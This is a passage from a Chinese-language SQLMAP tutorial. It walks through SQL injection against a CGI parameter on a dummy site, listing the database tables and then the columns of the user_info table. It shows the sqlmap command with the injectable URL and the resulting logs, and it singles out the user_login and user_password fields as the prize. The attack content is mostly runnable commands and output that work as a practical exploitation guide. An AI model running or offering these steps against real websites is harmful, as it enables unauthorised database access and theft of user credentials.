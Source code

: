 我们发现这个数据有8张表：

```
[10:56:20] [INFO] fetching tables for database: 'sqldummywebsite'
[10:56:22] [INFO] heuristics detected web page charset 'ISO-8859-2'
[10:56:22] [INFO] the SQL query used returns 8 entries
[10:56:25] [INFO] retrieved: item
[10:56:27] [INFO] retrieved: link
[10:56:30] [INFO] retrieved: other
[10:56:32] [INFO] retrieved: picture
[10:56:34] [INFO] retrieved: picture_tag
[10:56:37] [INFO] retrieved: popular_picture
[10:56:39] [INFO] retrieved: popular_tag
[10:56:42] [INFO] retrieved: user_info

```

![2014052914585030373.png](http://drops.javaweb.org/uploads/images/d1cfcbf9b07c35ce80fb1366a805ddac4904607b.jpg) 

显而易见，我们的兴趣主要在表user_info中，因为这张表中包含着数据库的用户名和密码。

0x04 列出指定数据库中的列
---------------

* * *

现在我们需要列出数据库sqldummywebsite的表user_info中的所有的列，使用SQLMAP进行这一步会非常简单，运行下面的命令：

```
sqlmap -u http://www.sqldummywebsite.com/cgi-bin/item.cgi?item_id=15 -D sqldummywebsite -T user_info --columns

```

命令返回5个段:

```
[10:57:16] [INFO] fetching columns for table 'user_info' in database 'sqldummywebsite'
[10:57:18] [INFO] heuristics detected web page charset 'ISO-8859-2'
[10:57:18] [INFO] the SQL query used returns 5 entries
[10:57:20] [INFO] retrieved: user_id
[10:57:22] [INFO] retrieved: int(10) unsigned
[10:57:25] [INFO] retrieved: user_login
[10:57:27] [INFO] retrieved: varchar(45)
[10:57:32] [INFO] retrieved: user_password
[10:57:34] [INFO] retrieved: varchar(255)
[10:57:37] [INFO] retrieved: unique_id
[10:57:39] [INFO] retrieved: varchar(255)
[10:57:41] [INFO] retrieved: record_status
[10:57:43] [INFO] retrieved: tinyint(4)

```

![2014052915004160941.png](http://drops.javaweb.org/uploads/images/532965c3b6990649bf7db9e8304de9209a0d52f6.jpg) 

哈哈！其中的`user_login`和`user_password`字段就是我们要找的！
